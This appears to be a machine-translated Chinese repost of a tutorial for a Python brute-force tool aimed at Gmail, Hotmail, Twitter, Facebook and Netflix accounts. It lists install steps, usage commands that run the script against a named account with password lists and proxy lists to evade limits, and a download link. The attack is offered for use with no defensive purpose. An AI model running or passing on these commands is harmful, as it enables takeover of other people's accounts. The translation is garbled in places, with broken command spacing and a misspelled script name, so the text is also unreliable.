


# 暴力:暴力 Gmail、Hotmail、Twitter、脸书和网飞

> 原文：<https://kalilinuxtutorials.com/brute-force-gmail-hotmail-twitter-facebook-netflix/>

在这篇文章中，我们将看到如何暴力对待 Gmail、Hotmail、Twitter、脸书和网飞。首先让我们看看如何安装它；

pip 安装代理列表
pip 安装机械化

**也可阅读-[JShielder:强化 Linux 服务器脚本/ Secure LAMP-LEMP 部署者/ CIS 基准 G](https://kalilinuxtutorials.com/jshielder-hardening-script/)**

**用途**

**暴力攻击 Gmail】**

python 3 Brute _ force . py-g Account@gmail.com-l 文件 _ 列表
python 3 Brute _ force . py-g Account@gmail.com-p 密码 _ 单

**暴力 Hotmail 攻击**

python 3 Brute _ force . py-t Account@hotmail.com-l 文件 _ 列表
python 3 Brute _ force . py-t Account@hotmail.com-p 密码 _ 单

**暴力推特攻击**

python 3 Brute _ force . py-T Account _ Twitter-l File _ list
python 3 Brute _ force . py-T Account _ Twitter-l File _ list-X proxy-list . txt

**脸书的武力进攻**

python 3 Brute _ force . py-f Account _ Facebook-l File _ list
python 3 Brute _ force . py-f Account _ Facebook-l File _ list-X proxy-list . txt

**网飞的武力进攻**

□VPN

python 3 raw _ force . py-n account _ Netflix-l file _ list
python 3 raw _ force . py-n account _ Netflix-l file _ list-x proxy-list . txt

[**Download**](https://github.com/Matrix07ksa/Brute_Force)